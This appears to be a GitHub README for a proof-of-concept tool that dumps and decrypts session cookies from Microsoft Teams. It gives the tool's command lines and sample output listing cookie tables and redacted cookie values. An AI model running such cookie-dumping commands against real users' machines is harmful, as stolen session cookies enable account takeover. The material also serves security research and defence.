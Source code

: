 ## PoC for dumping and decrypting cookies in the latest version of Microsoft Teams

> extract.py just dumps without arguments

> extract.exe is just extract.py packed into an exe

### teams_dump.py 

List values in the database
```
python.exe .\teams_dump.py teams --list

Table: meta
Columns in meta: key, value
--------------------------------------------------
Table: cookies
Columns in cookies: creation_utc, host_key, top_frame_site_key, name, value, encrypted_value, path, expires_utc, is_secure, is_httponly, last_access_utc, has_expires, is_persistent, priority, samesite, source_scheme, source_port, is_same_party
```

Dump the database into a json file
```
python.exe .\teams_dump.py teams --get
[+] Host: teams.microsoft.com
[+] Cookie Name MUIDB
[+] Cookie Value: xxxxxxxxxxxxxx
 **************************************************
[+] Host: teams.microsoft.com
[+] Cookie Name TSREGIONCOOKIE
[+] Cookie Value: xxxxxxxxxxxxxx
 **************************************************
```

